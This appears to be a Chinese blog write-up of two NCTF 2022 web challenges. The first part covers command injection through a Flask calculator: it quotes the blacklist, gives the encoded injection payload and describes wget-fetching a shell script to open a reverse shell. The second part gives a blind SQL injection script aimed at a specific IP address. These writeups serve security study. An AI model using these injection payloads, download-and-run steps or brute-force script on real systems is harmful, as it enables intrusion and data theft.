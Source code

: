 ```yaml
---
title: "NCTF-WEB"
published: 2022-12-05
description: ""
category: 胡乱折腾
tags: 
  - "ctf"
  - "nctf"
  - "web"
---
```


### calc

打开查看是计算器，查看发现是flask框架构造错误参数发现debug页面从而发现了关键代码

```
def calc():
    ip = request.remote_addr
    num = request.values.get("num")
    log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-%H%M%S",time.localtime()),ip,num)
 
    if waf(num):
        try:
            data = eval(num)
            os.system(log)
        except:
            pass
------------------------------------------------------
def waf(s):Open an interactive python shell in this frame
    blacklist = ['import','(',')','#','@','^','$',',','>','?','`',' ','_','|',';','"','{','}','&','getattr','os','system','class','subclasses','mro','request','args','eval','if','subprocess','file','open','popen','builtins','compile','execfile','from_pyfile','config','local','self','item','getitem','getattribute','func_globals','__init__','join','__dict__']
    flag = True
    for no in blacklist:
        if no.lower() in s.lower():
            flag= False
            print(no)
            break
    return flag
 

```

关键点就在于os.system(log)

所以根据流程就可以知道只要绕过waf检查并且eval不会报错就行。

所以可以构造一个命令执行。

因为waf过滤了;可以通过换行执行新的命令空格过滤了可以用tab替换%09 这样就可以构造了，只剩下了eval了只要eval不报错就可以执行到systen函数。

这里可以通过多行文本的办法没有过滤单引号可以通过''' '''进行构造，但是在linux下也是多行文本不过linux可以通过一个单引号结束掉多文本所以可以是'''%0a'%0axxxxxxxxxxxxx%0a'''

xxxx就是我们要执行的命令。最开始我是直接cp /\* static/ 呃呃因为以前做过几个都是这样的flag文件名就是flag直接在static下面访问就行了，这次居然没反应呃呃。然后就利用其他办法通过wget下载一个脚本，wget xxxx.xx/shell.sh 然后chmod +x shell.sh ./shell.sh就可以直接反弹shell了

最后找flag时候发现flag在static下面一个叫v2的文件里呃呃呃呃b（￣▽￣）d　

### ezbypass

提示是sql注入，提示查看password测试发现只有id=1一个用过联合查询发现了有waf然后就测试其他办法

通过盲注一位一位的爆破， 

```
import requests

flag = ""
s = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$&()*+-/^`{|}~"
for i in range(150):
    for j in s:
        url = f"http://121.37.11.207:8099/sql.php?id=1 and password like 0x{flag + hex(ord(j))[2:]}25"
        if "letian" in requests.get(url).text:
            flag +=hex(ord(j))[2:]
            print(flag)
            break
然后就得到flag了
```
